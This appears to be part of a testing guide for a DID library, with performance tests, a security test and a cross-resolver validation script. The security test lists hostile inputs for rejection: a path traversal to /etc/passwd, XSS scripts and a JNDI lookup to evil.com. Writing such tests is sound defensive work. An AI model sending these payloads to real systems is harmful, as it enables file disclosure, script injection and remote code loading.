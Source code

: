 ### Performance Benchmarks

```typescript
// test/performance.test.ts
describe('Performance Tests', () => {
  it('should create 1000 DIDs in under 100ms', () => {
    const start = performance.now();
    for (let i = 0; i < 1000; i++) {
      createDIDKey('d75a980182b10ab7d54bfed3c964073a0ee172f3daa62325af021a68f707511a', 'ed25519-pub');
    }
    const end = performance.now();
    expect(end - start).toBeLessThan(100);
  });
});
```

### Security Testing

```typescript
// test/security.test.ts
describe('Security Tests', () => {
  it('should handle malicious inputs safely', () => {
    const maliciousInputs = [
      '../../../etc/passwd',
      '<script>alert("xss")</script>',
      'javascript:alert("xss")',
      '${jndi:ldap://evil.com/a}',
      'data:text/html,<script>alert("xss")</script>'
    ];

    maliciousInputs.forEach(input => {
      expect(() => createDIDWeb(input)).toThrow();
    });
  });
});
```

## 7. **Automated Testing Scripts**

### Test Against Multiple Implementations

```bash
#!/bin/bash
# scripts/cross-validate.sh

echo "Testing against Veramo..."
npx @veramo/cli did resolve did:key:z6MktwupdmLXVVqTzCw4i46r4uGyosGXRnR3XjN4Zq7oMMsw

echo "Testing against Universal Resolver..."
curl -s "https://dev.uniresolver.io/1.0/identifiers/did:key:z6MktwupdmLXVVqTzCw4i46r4uGyosGXRnR3XjN4Zq7oMMsw" | jq .

echo "Testing did:web resolution..."
curl -s "https://did.web/did:web:example.com" | jq .
```

